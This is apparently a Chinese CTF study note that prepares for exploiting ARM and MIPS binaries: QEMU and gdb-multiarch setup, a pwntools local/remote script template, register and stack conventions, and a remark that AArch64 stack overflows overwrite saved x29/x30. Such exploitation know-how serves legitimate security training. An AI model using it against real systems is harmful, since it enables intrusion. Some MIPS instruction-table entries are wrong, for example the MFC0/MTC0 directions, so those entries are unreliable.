



# 环境搭建（基于Ubuntu18.04)

> 目前问题是ubuntu18下，在我的虚拟机中pwndbg和gdb-multiarch不能兼容，其他师傅却可以。尝试换成gef，结果gdb不行了反而gdb-multiarch可以。
>
> 现阶段决定先在16编译qemu4.2先用着，到时再去嫖一个别人的镜像吧，因为我的这镜像也是多问题。。。

## 安装 qemu

### 使用包管理

查了下包管理器安装的版本停留在 2.x 版本，考虑到最近有的程序要用新版本才能加载，放弃这种方式安装

```shell
#查看apt安装版本
apt-cache madison qemu

      qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-security/universe amd64 Packages
      qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-updates/universe amd64 Packages
      qemu | 1:2.11+dfsg-1ubuntu7.34 | http://cn.archive.ubuntu.com/ubuntu bionic-updates/universe amd64 Packages
      qemu | 1:2.11+dfsg-1ubuntu7.34 | http://security.ubuntu.com/ubuntu bionic-security/universe amd64 Packages
      qemu | 1:2.11+dfsg-1ubuntu7 | http://mirrors.aliyun.com/ubuntu bionic/universe amd64 Packages
      qemu | 1:2.11+dfsg-1ubuntu7 | http://cn.archive.ubuntu.com/ubuntu bionic/universe amd64 Packages
      qemu | 1:2.11+dfsg-1ubuntu7 | http://mirrors.aliyun.com/ubuntu bionic/main Sources
      qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-security/main Sources
      qemu | 1:2.11+dfsg-1ubuntu7.34 | http://mirrors.aliyun.com/ubuntu bionic-updates/main Sources
```

### 从源码编译安装

#### 下载源码

```shell
wget https://download.qemu.org/qemu-5.2.0.tar.xz
tar xvJf qemu-5.2.0.tar.xz
cd qemu-5.2.0
```

#### 处理依赖

> 这里依赖是根据本机环境来装，可能有些需要的依赖已经安装完成

```shell
sudo apt-get update
sudo apt-get install libglib2.0-dev
sudo apt-get install libpixman-1-dev
# re2c
sudo apt-get install re2c
# ninja 
sudo apt-get install ninja-build
# other
sudo apt install pkg-config
sudo apt install libglib2.0-dev
sudo apt install libpixman-1-dev
```

#### 编译安装

```shell
sudo ./configure --static
sudo make -j4 # 多线程编译自行调整
sudo make install 
```

> 学了路由器挖洞后发现，如果是动态链接需要将 qemu 运行库也拉到当前目录下面，可能会和固件的 lib 文件夹共用，文件重名等，所以后来将 qemu 换成了静态编译就直接把程序拖过去就行了。

``./configure`` 使用默认选项安装全部架构的环境，安装路径在 ``/usr/local/bin``

```shell
									 Install prefix: /usr/local
                   BIOS directory: share/qemu
                    firmware path: /usr/local/share/qemu-firmware
                 binary directory: bin
                library directory: lib
                 module directory: lib/qemu
                libexec directory: libexec
                include directory: include
                 config directory: /usr/local/etc
            local state directory: /usr/local/var
                 Manual directory: share/man
                    Doc directory: /usr/local/share/doc
                  Build directory: /home/skye/qemu-5.2.0/build
                      Source path: /home/skye/qemu-5.2.0
```

### 验证安装成功

```shell
~$ qemu-arm --version
qemu-arm version 5.2.0
Copyright (c) 2003-2020 Fabrice Bellard and the QEMU Project developers
```

到这里就能直接运行静态编译的多架构程序。可选清一下中间文件 ``make clean``

## 安装动态运行库

使用命令`apt-cache search "libc6" | grep "{架构名称}"`搜索并筛选可用的多架构运行库。

我们只需要安装形如`libc6-*-cross`的运行库即可。

## 安装binutils环境

> 原因：避免 pwntools 用 asm 时出错[LINK](https://www.anquanke.com/post/id/199112#h3-10)

需要安装binutils依赖，首先使用命令`apt search binutils | grep [arch]`(此处的[arch]请自行替换)，随后安装显示出的包即可完成。

## 参考文章

[编译和安装QEMU-5.0.0](https://blog.csdn.net/wuu1010/article/details/104998804/)

[qemu安装与调试](https://ctf-wiki.github.io/ctf-tools/binary-core-tools/virtualization/qemu/qemu-install-and-debug/)

[如何 pwn 掉一个 arm 的binary](https://m4x.fun/post/how-2-pwn-an-arm-binary/)

[ARM架构下的 Pwn 的一般解决思路](https://www.anquanke.com/post/id/199112)


# qemu 使用

## 一般调试

以调试方式启动程序，程序启动后命中开头断点，等待 gdb 链接调试 

```shell
qemu-arm -g [port] -L [dynamically linked file] filename
```

新建终端 ``gdb-multiarch filename -q`` 启动 gdb 

进入GDB后，首先使用命令`set architecture [Arch-name]`设置架构。(若安装了能自动识别架构的GDB插件这一步可以省略)

然后使用`target remote localhost:[port]`来链接待调试的程序。(在GEF插件中，若想继续使用GEF插件的部分特性需要将命令改为`gef-remote localhost:[port]`)

调试其他架构和运行库分别调整 qemu 和 -L 参数

## 脚本模板

> From:[:link:](https://m4x.fun/post/how-2-pwn-an-arm-binary/)
>
> 使用 context.binary 指定 binary 时, 就可以不用指定 context.arch, context.os 等参数

```python
from pwn import *
import sys
context.binary = "your_binary"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "your_binary"])
else:
    p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabi", "your_binary"])

elf = ELF("your_binary")
libc = ELF("/usr/arm-linux-gnueabi/lib/libc.so.6")
```

# ARM架构

ARM架构使用了与Intel/AMD架构所不同的精简指令集(RISC)，因此其函数调用约定以及寄存器也有了一定的差异。

## 寄存器规则


1. 子程序间通过寄存器**R0～R3**来**传递参数**。这时，寄存器R0～R3可记作arg0～arg3。**被调用的子程序在返回前无需恢复寄存器R0～R3的内容，R0被用来存储函数调用的返回值**。
2. 在子程序中，使用寄存器**R4～R11**来**保存局部变量**。这时，寄存器R4～R11可以记作var1～var8。如果在子程序中使用了寄存器v1～v8中的某些寄存器，则**子程序进入时必须保存这些寄存器的值，在返回前必须恢复这些寄存器的值**。**R7经常被用作存储系统调用号，R11存放着帮助我们找到栈帧边界的指针，记作FP**。在Thumb程序中，通常只能使用寄存器R4～R7来保存局部变量。
3. 寄存器**R12**用作**过程调用中间临时寄存器**，记作IP。在子程序之间的连接代码段中常常有这种使用规则。
4. 寄存器**R13**用作**堆栈指针**，记作SP。在子程序中寄存器R13不能用作其他用途。**寄存器SP在进入子程序时的值和退出子程序时的值必须相等**。
5. 寄存器**R14**称为**连接寄存器**，记作LR。它用于**保存子程序的返回地址**。如果在子程序中保存了返回地址，寄存器R14则可以用作其他用途。
6. 寄存器**R15**是**程序计数器**，记作PC。它不能用作其它用途。当执行一个分支指令时，**PC存储目的地址。在程序执行中，ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置，Thumb(v1)模式下的PC存储着当前指令加4(两条Thumb指令后)的位置**。

## ARM寄存器与Intel寄存器对照关系

| ARM架构 寄存器名 |   寄存器描述   |   Intel架构 寄存器名    |
| :--------------: | :------------: | :---------------------: |
|        R0        |   通用寄存器   |           EAX           |
|      R1~R5       |   通用寄存器   | EBX、ECX、EDX、EDI、ESI |
|      R6~R10      |   通用寄存器   |           无            |
|     R11(FP)      |    栈帧指针    |           EBP           |
|     R12(IP)      |  内部程序调用  |           无            |
|     R13(SP)      |    堆栈指针    |           ESP           |
|     R14(LR)      |   链接寄存器   |           无            |
|     R15(PC)      |   程序计数器   |           EIP           |
|       CPSR       | 程序状态寄存器 |         EFLAGS          |

## 堆栈(Stack)规则

ATPCS规定堆栈为FD类型，即Full Descending，意思是 **SP指向最后一个压入的值(栈顶)，数据栈由高地址向低地址生长**，即满递减堆栈，并且对堆栈的操作是8字节对齐。所以经常使用的指令就有**STMFD和LDMFD**。

### STMFD

STMFD指令即Store Multiple FULL Descending指令，相当于压栈。`STMFD SP! ,{R0-R7，LR}`实际上会执行以下命令：

```c
SP = SP - 9 x 4 //(共计压入R0-R7以及LR一共九个寄存器)
ADDRESS = SP
MEMORY[ADDRESS] = LR
for i = 7 to 0
    MEMORY[ADDRESS] = Ri
    ADDRESS = ADDRESS + 4
```

此处也可以看出，事实上的入栈顺序与`R0-R7，LR`相反。

执行`SP = SP - 9 x 4`后[](https://img.lhyerror404.cn/error404/2020-02-03-032143.png)

执行`ADDRESS = SP`后 

执行`MEMORY[ADDRESS] = LR`后

接下来，`ADDRESS`逐次上移，以此填入寄存器的值。

至此，入栈指令执行结束。若入栈指令为`STMFD SP ,{R0-R7，LR}`，SP指针会在最后回到原位，不会改变SP指针的值。

### LDMFD

LDMFD指令即Load Multiple FULL Descending指令，相当于出栈，也就是STMFD指令的逆操作。`LDMFD SP! ,{R0-R7，LR}`实际上会执行以下命令：

```c
SP = SP + 9 x 4
ADDRESS = SP
for i = 0 to 7
    Ri = MEMORY[ADDRESS]
    ADDRESS = ADDRESS - 4
LR = MEMORY[ADDRESS]
```

## 传参规则

1. 对于参数个数可变的子程序，当参数个数不超过4个时，可以使用寄存器R0～R3来传递参数；当参数超过4个时，还可以使用堆栈来传递参数。
2. 在传递参数时，将所有参数看作是存放在连续的内存**字单元**的字数据。然后，依次将各字数据传递到寄存器R0，R1，R2和R3中。**如果参数多于4个，则将剩余的字数据传递到堆栈中。入栈的顺序与参数传递顺序相反，即最后一个字数据先入栈。**

## 返回值规则

1. 结果为一个32位整数时，可以通过寄存器R0返回
2. 结果为一个64位整数时，可以通过寄存器R0和R1返回
3. 结果为一个浮点数时，可以通过浮点运算部件的寄存器f0、d0或s0来返回
4. 结果为复合型浮点数（如复数）时，可以通过寄存器f0～fn或d0～dn来返回
5. 对于位数更多的结果，需要通过内存来传递。

## 访址规则

### 寄存器直接取址

通常， LDR 指令被用来从内存中加载数据到寄存器， STR 指令被用作将寄存器的值存放到内存中。

```assembly
@ LDR操作：从R0指向的地址中取值放到R2中
LDR R2, [R0]   @ [R0] - 数据源地址来自于R0指向的内存地址
```

```assembly
@ STR操作：将R2中的值放到R1指向的地址中
STR R2, [R1]   @ [R1] - 目的地址来自于R1在内存中指向的地址
```

示例代码

```assembly
.data          /* 数据段是在内存中动态创建的，所以它的在内存中的地址不可预测*/
var1: .word 3  /* 内存中的第一个变量且赋值为3 */
var2: .word 4  /* 内存中的第二个变量且赋值为4 */

.text          /* 代码段开始 */ 
.global _start

_start:
    ldr r0, adr_var1  @ 将存放var1值的地址adr_var1加载到寄存器R0中 
    ldr r1, adr_var2  @ 将存放var2值的地址adr_var2加载到寄存器R1中 
    ldr r2, [r0]      @ 将R0所指向地址中存放的0x3加载到寄存器R2中  
    str r2, [r1]      @ 将R2中的值0x3存放到R1做指向的地址，此时，var2变量的值是0x3
    bkpt        

adr_var1: .word var1  /* var1的地址助记符 */
adr_var2: .word var2  /* var2的地址助记符 */
```

### 立即数偏移寻址

接下来我们对这段代码进行反编译，结果如下：

```assembly
ldr  r0, [ pc, #12 ]   ; 0x8088 <adr_var1>
ldr  r1, [ pc, #12 ]   ; 0x808c <adr_var2>
ldr  r2, [r0]
str  r2, [r1]
bx   lr
```

此处，`[PC,#12]`的意义是`PC + 4*3`，可以看出，程序使用了偏移寻址的思路，但是，根据我们所写的汇编码：

```assembly
_start:
    ldr  r0, [ pc, #12 ]   ; <- PC
    ldr  r1, [ pc, #12 ]   
    ldr  r2, [r0]
    str  r2, [r1]
    bx   lr       

adr_var1: .word var1  
adr_var2: .word var2
```

我们若想获取var_1，应该为`PC + 4 * 5`才对，但是我们之前提过的，**在程序执行中，ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置**，也就是说，此时程序中的状况应该如下表所示：

```assembly
_start:
    ldr  r0, [ pc, #12 ]
    ldr  r1, [ pc, #12 ]   
    ldr  r2, [r0]          ; <- PC
    str  r2, [r1]
    bx   lr       

adr_var1: .word var1  
adr_var2: .word var2
```

这种形如`[Ri , num]`的方式被称为**立即数作偏移寻址**。

```assembly
str r2, [r1, #2]  @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加2所指向地址处。
str r2, [r1, #4]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加4所指向地址处，之后R1寄存器中存储的值加4,也就是R1=R1+4。
ldr r3, [r1], #4  @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中存储的值加4,也就是R1=R1+4。
```

### 寄存器作偏移寻址

```assembly
str r2, [r1, r2]  @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加R2寄存器的值所指向地址处。R1寄存器不会被修改。 
str r2, [r1, r2]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加R2寄存器的值所指向地址处，之后R1寄存器中的值被更新,也就是R1=R1+R2。
ldr r3, [r1], r2  @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中的值被更新也就是R1=R1+R2。
```

### 寄存器缩放值作偏移寻址

```assembly
str r2, [r1, r2, LSL#2]  @ 取址模式：基于偏移量。R2寄存器中的值0x3被存放到R1寄存器的值加(左移两位后的R2寄存器的值)所指向地址处。R1寄存器不会被修改。
str r2, [r1, r2, LSL#2]! @ 取址模式：基于索引前置修改。R2寄存器中的值0x3被存放到R1寄存器的值加(左移两位后的R2寄存器的值)所指向地址处，之后R1寄存器中的值被更新,也就R1 = R1 + R2<<2。
ldr r3, [r1], r2, LSL#2  @ 取址模式：基于索引后置修改。R3寄存器中的值是从R1寄存器的值所指向的地址中加载的，加载之后R1寄存器中的值被更新也就是R1 = R1 + R2<<2。
```

## ARMEABI

> 未验证，感觉有点冲突

前面介绍了arm 64位架构，armeabi 是 32 架构，指令也类似，只不过它的栈布局与常规 x86 的一样，**R11和PC的值保存在栈底**。**R11充当ebp，PC充当RIP** 。 LDMFD  SP!, {R11,PC} 指令即相当于 pop ebp;ret 的作用

例题：[inctf2018_wARMup](# inctf2018_wARMup)

# Arch64架构

在ARMv8引入的一种全新架构。

## 寄存器

AArch拥有31个通用寄存器，系统运行在64位状态下的时候名字叫 Xn ，运行在32位的时候就叫 Wn 。

| 寄存器  | 别名 |                             意义                             |
| :-----: | :--: | :----------------------------------------------------------: |
|   SP    |  –   |                     Stack Pointer:栈指针                     |
|   R30   |  LR  |  Link Register:在调用函数时候，保存下一条要执行指令的地址。  |
|   R29   |  FP  |              Frame Pointer:保存函数栈的基地址。              |
| R19-R28 |  –   |         Callee-saved registers（含义见上面术语解释）         |
|   R18   |  –   |              平台寄存器，有特定平台解释其用法。              |
|   R17   | IP1  |     The second intra-procedure-call temporary register……     |
|   R16   | IP0  |     The first intra-procedure-call temporary register……      |
| R9-R15  |  –   |                          临时寄存器                          |
|   R8    |  –   |              在一些情况下，返回值是通过R8返回的              |
|  R0-R7  |  –   |               在函数调用过程中传递参数和返回值               |
|  NZCV   |  –   | 状态寄存器：N（Negative）负数 Z(Zero) 零 C(Carry) 进位 V(Overflow) 溢出 |

## 指令基本格式

```
<Opcode>{<Cond>}<S> <Rd>, <Rn> {,<Opcode2>}
```

Opcode：操作码，也就是助记符，说明指令需要执行的操作类型。

Cond：指令执行条件码。

S：条件码设置项,决定本次指令执行是否影响PSTATE寄存器响应状态位值。

Rd/Xt：目标寄存器，A32指令可以选择R0-R14，T32指令大部分只能选择RO-R7，A64指令可以选择X0-X30。

Rn/Xn：第一个操作数的寄存器，和Rd一样，不同指令有不同要求。

Opcode2：第二个操作数，可以是立即数，寄存器Rm和寄存器移位方式（Rm，#shit）。

## 内存操作指令-load/store

在分析AArch64架构程序时，会发现我们找不到ARM中常见的STMFD/LDMFD命令，取而代之的是STP/LDP命令。

在ARM-v8指令集中，程序支持以下五种寻址方式：

1. Base register only (no offset) ：基址寄存器无偏移。形如:`[ base { , #0 } ]`。
2. Base plus offset：基址寄存器加偏移。形如:`[ base { , #imm } ]`。
3. Pre-indexed：事先更新寻址，先变化后操作。形如:`[ base , #imm ]!`。⚠️：!符号表示则当数据传送完毕之后，将最后的地址写入基址寄存器，否则基址寄存器的内容不改变。
4. Post-indexed：事后更新寻址，先操作后变化。形如:`[ base ] , #imm`。
5. Literal (PC-relative): PC相对寻址。

常见的Load/Store指令有：

LDR，LDRB，LDRSB，LDRH，LDRSW，STR，STRB，STRH

⚠️：此处R – Register(寄存器)、RB – Byte(字节-8bit)、SB – Signed Byte(有符号字节)、RH – Half Word(半字-16bit)、SW- Signed Word(带符号字-32bit)。

举例：

`LDR X1 , [X2]`——将X2寄存器中的值赋给X1寄存器。

`LDR X1 , [X2] ， #4`——将X2寄存器中的值赋给X1寄存器，然后X2寄存器中的值加4。

对于Load Pair/Store Pair这两个指令：从Memory地址addr处读取两个双字/字数据到目标寄存器Xt1，Xt2。

## 与 amd 的变化

> 引用：[:link:](https://blog.csdn.net/seaaseesa/article/details/105281585)

栈布局上和 amd 有比较大区别，这样一个程序：

```c
void fun(){
  char buf[0x20];
}
int main(){
	fun();
  return 0;
}
```

从 main 进入 fun 时，栈分布如下：

| 内存地址 | 内存中的数据 | 备注                         | 所有者 |
| :------: | :----------- | :--------------------------- | :----: |
|    低    | X29 value    | main 调用 fun 时的寄存器值   |  fun   |
|          | X30 value    | 同上                         |  fun   |
|          | buf          | fun 的局部变量               |  fun   |
|          | X29 value    | 上层函数调用main时的寄存器值 |  main  |
|    高    | X30 value    | 同上                         |  main  |

**x86 架构下的 rbp、rip 保存在栈低，aarch64 架构下保存在栈顶。**

**如果存在栈溢出，修改的上层函数的 rbp 和 rip（x29、x30）。**


# MIPS架构

## mips、mipsel的区别

mips是大端(big-endian)架构，而mipsel是小端(little-endian)架构。指令的用法是差不多的。

## 寄存器

各个寄存器表示的含义如下

|  编号   |  名称   | 备注                                                   |
| :-----: | :-----: | :----------------------------------------------------- |
|   $0    |  $zero  | 第0号寄存器，其值始终为0。                             |
|   $1    |   $at   | 保留寄存器                                             |
|  $2-$3  | $v0-$v1 | values，保存表达式或函数返回结果                       |
|  $4-$7  | $a0-$a3 | argument，作为函数的前四个参数                         |
| $8-$15  | $t0-$t7 | temporaries，供汇编程序使用的临时寄存器                |
| $16-$23 | $s0-$s7 | saved values，子函数使用时需先保存原寄存器的值         |
| $24-$25 | $t8-$t9 | temporaries，供汇编程序使用的临时寄存器，补充$t0-$t7。 |
| $26-$27 | $k0-$k1 | 保留，中断处理函数使用                                 |
|   $28   |   $gp   | global pointer，全局指针                               |
|   $29   |   $sp   | stack pointer，堆栈指针，指向堆栈的栈顶                |
|   $30   |   $fp   | frame pointer，保存栈指针                              |
|   $31   |   $ra   | return address，返回地址                               |

三个特殊的寄存器： `PC` 即程序计数器； `HI` 即乘除结果高位寄存器； `LO` 即乘除结果低位寄存器。

## 堆栈规则

栈操作：向低地址增长，**没有 EBP **，进入一个函数，需要将当前栈指针向下移动 n bit ，当函数返回时才将栈指针加上偏移量恢复栈。**由于不能随便移动栈指针，所以寄存器压栈和出栈都必需指定偏移量**。

用 ``$a0~$a3``传递函数的前 4 个参数，多余的参数用栈传递。函数返回值一般用 ``$v0~$v1`` 寄存器传递。


在 x86 架构中，使用 call 命令调用函数时，会先将当前执行位置压入堆栈，mips 的调用指令把函数的**返回地址直接存入 $RA 寄存器**而不是在堆栈中。

## 函数调用的过程

> 叶子函数：不再调用其他函数。非叶子函数相反。

1. A 函数调用 B 函数时，复制当前`$PC`的值到`$RA`寄存器，然后跳到子函数执行
2. 到 B 函数时，如果为**非叶子函数，则返回地址会先存入堆栈**；
3. 返回时，如果 B 函数为**叶子函数，则`jr $ra`直接返回**；非叶子函数先从堆栈取出返回地址，然后将返回地址放入 $RA ，再 `jr $ra` 。

## ROP chain


## 汇编指令

| **指令** | **功能**                                                     | **应用实例**      |
| :------: | :----------------------------------------------------------- | :---------------- |
|  **J**   | **直接跳转指令，跳转的地址在指令中**                         | **J name**        |
|  **JR**  | **跳转到寄存器里的地址值指向的地方**                         | **JR R1**         |
| **JAL**  | **直接跳转指令，跳转的地址在指令中，跳转时，会将返回地址存入$ra寄存器** | **JAL R1 name**   |
| **JALR** | **跳转到寄存器里的地址值指向的地方，跳转时，会将返回地址存入$ra寄存器** | **JALR R1**       |
|    LB    | 从存储器中读取一个字节的数据到寄存器中                       | LB R1, 0(R2)      |
|    LH    | 从存储器中读取半个字的数据到寄存器中                         | LH R1, 0(R2)      |
|  **LW**  | **从存储器中读取一个字的数据到寄存器中**                     | **LW R1, 0(R2)**  |
|    LD    | 从存储器中读取双字的数据到寄存器中                           | LD R1, 0(R2)      |
|   L.S    | 从存储器中读取单精度浮点数到寄存器中                         | L.S R1, 0(R2)     |
|   L.D    | 从存储器中读取双精度浮点数到寄存器中                         | L.D R1, 0(R2)     |
|   LBU    | 功能与LB指令相同，但读出的是不带符号的数据                   | LBU R1, 0(R2)     |
|   LHU    | 功能与LH指令相同，但读出的是不带符号的数据                   | LHU R1, 0(R2)     |
|   LWU    | 功能与LW指令相同，但读出的是不带符号的数据                   | LWU R1, 0(R2)     |
|  **la**  | **相当于x86的lea**                                           |                   |
| **lai**  | **i的意思是immediate立即数，即后面的对象为立即数**           |                   |
|    SB    | 把一个字节的数据从寄存器存储到存储器中                       | SB R1, 0(R2)      |
|    SH    | 把半个字节的数据从寄存器存储到存储器中                       | SH R1，0(R2)      |
|  **SW**  | **把一个字的数据从寄存器存储到存储器中**                     | **SW R1, 0(R2)**  |
|    SD    | 把两个字节的数据从寄存器存储到存储器中                       | SD R1, 0(R2)      |
|   S.S    | 把单精度浮点数从寄存器存储到存储器中                         | S.S R1, 0(R2)     |
|   S.D    | 把双精度数据从存储器存储到存储器中                           | S.D R1, 0(R2)     |
|   DADD   | 把两个定点寄存器的内容相加，也就是定点加                     | DADD R1,R2,R3     |
|  DADDI   | 把一个寄存器的内容加上一个立即数                             | DADDI R1,R2,#3    |
|  DADDU   | 不带符号的加                                                 | DADDU R1,R2,R3    |
|  DADDIU  | 把一个寄存器的内容加上一个无符号的立即数                     | DADDIU R1,R2,#3   |
|  ADD.S   | 把一个单精度浮点数加上一个双精度浮点数，结果是单精度浮点数   | ADD.S F0,F1,F2    |
|  ADD.D   | 把一个双精度浮点数加上一个单精度浮点数，结果是双精度浮点数   | ADD.D F0,F1,F2    |
|  ADD.PS  | 两个单精度浮点数相加，结果是单精度浮点数                     | ADD.PS F0,F1,F2   |
|   DSUB   | 两个寄存器的内容相减，也就是定点数的减                       | DSUB R1,R2,R3     |
|  DSUBU   | 不带符号的减                                                 | DSUBU R1,R2,R3    |
|  SUB.S   | 一个双精度浮点数减去一个单精度浮点数，结果为单精度           | SUB.S F1,F2,F3    |
|  SUB.D   | 一个双精度浮点数减去一个单精度浮点数，结果为双精度浮点数     | SUB.D F1,F2,F3    |
|  SUB.PS  | 两个单精度浮点数相减                                         | SUB.SP F1,F2,F3   |
|   DDIV   | 两个定点寄存器的内容相除，也就是定点除                       | DDIV Ｒ1,Ｒ2,Ｒ3  |
|  DDIVU   | 不带符号的除法运算                                           | DDIVU Ｒ1,Ｒ2,Ｒ3 |
|  DIV.S   | 一个双精度浮点数除以一个单精度浮点数，结果为单精度浮点数     | DIV.S F1,F2,F3    |
|  DIV.D   | 一个双精度浮点数除以一个单精度浮点数，结果为双精度浮点数     | DIV.D F1,F2,F3    |
|  DIV.PS  | 两个单精度浮点数相除，结果为单精度                           | DIV.PS F1,F2,F3   |
|   DMUL   | 两个定点寄存器的内容相乘，也就是定点乘                       | DMUL Ｒ1,Ｒ2,Ｒ3  |
|  DMULU   | 不带符号的乘法运算                                           | DMULU R1,R2,R3    |
|  MUL.S   | 一个双精度浮点数乘以一个单精度浮点数，结果为单精度浮点数     | DMUL.S F1,F2,F3   |
|  MUL.D   | 一个双精度浮点数乘以一个单精度浮点数，结果为双精度浮点数     | DMUL.D F1,F2,F3   |
|  MUL.PS  | 两个单精度浮点数相乘，结果为单精度浮点数                     | DMUL.PS F1,F2,F3  |
|   AND    | 与运算，两个寄存器中的内容相与                               | ANDＲ1,Ｒ2,Ｒ3    |
|   ANDI   | 一个寄存器中的内容与一个立即数相与                           | ANDIＲ1,Ｒ2,#3    |
|    OR    | 或运算，两个寄存器中的内容相或                               | ORＲ1,Ｒ2,Ｒ3     |
|   ORI    | 一个寄存器中的内容与一个立即数相或                           | ORIＲ1,Ｒ2,#3     |
|   XOR    | 异或运算，两个寄存器中的内容相异或                           | XORＲ1,Ｒ2,Ｒ3    |
|   XORI   | 一个寄存器中的内容与一个立即数异或                           | XORIＲ1,Ｒ2,#3    |
|   BEQZ   | 条件转移指令，当寄存器中内容为0时转移发生                    | BEQZ R1,0         |
|   BENZ   | 条件转移指令，当寄存器中内容不为0时转移发生                  | BNEZ R1,0         |
|   BEQ    | 条件转移指令，当两个寄存器内容相等时转移发生                 | BEQ R1,R2         |
|   BNE    | 条件转移指令，当两个寄存器中内容不等时转移发生               | BNE R1,R2         |
|  MOV.S   | 把一个单精度浮点数从一个浮点寄存器复制到另一个浮点寄存器     | MOV.S F0,F1       |
|  MOV.D   | 把一个双精度浮点数从一个浮点寄存器复制到另一个浮点寄存器     | MOV.D F0,F1       |
|   MFC0   | 把一个数据从通用寄存器复制到特殊寄存器                       | MFC0 R1,R2        |
|   MTC0   | 把一个数据从特殊寄存器复制到通用寄存器                       | MTC0 R1,R2        |
|   MFC1   | 把一个数据从定点寄存器复制到浮点寄存器                       | MFC1 R1,F1        |
|   MTC1   | 把一个数据从浮点寄存器复制到定点寄存器                       | MTC1 R1,F1        |
|   LUI    | 把一个16位的立即数填入到寄存器的高16位，低16位补零           | LUI R1,#42        |
|   DSLL   | 双字逻辑左移                                                 | DSLL R1,R2,#2     |
|   DSRL   | 双字逻辑右移                                                 | DSRL R1,R2,#2     |
|   DSRA   | 双字算术右移                                                 | DSRA R1,R2,#2     |
